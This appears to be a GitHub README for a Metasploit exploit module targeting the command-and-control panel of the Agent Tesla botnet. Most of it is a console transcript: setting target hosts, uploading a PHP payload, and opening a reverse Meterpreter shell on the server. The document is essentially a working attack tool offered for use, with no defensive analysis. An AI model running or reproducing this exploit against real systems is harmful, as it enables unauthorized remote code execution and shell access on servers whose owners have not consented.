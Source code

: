 # TeslaRCE
Tesla Agent— botnet C&amp;C RCE Exploitation

***WARNING*** This will only work if hosting provider allows the PHP `exec` function

```
msf5 exploit(agent_tesla_rce) > set vhost example.com
vhost => example.com
msf5 exploit(agent_tesla_rce) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf5 exploit(agent_tesla_rce) > run

[*] Started reverse TCP handler on 0.0.0.0:1337
[+] Payload uploaded as .rzTJ.php
[*] Sending stage (38247 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (0.0.0.0:1337 -> 2.2.2.2:34550) at 2019-08-13 22:45:10 +0200
[+] Payload successfully triggered !

meterpreter > 
```

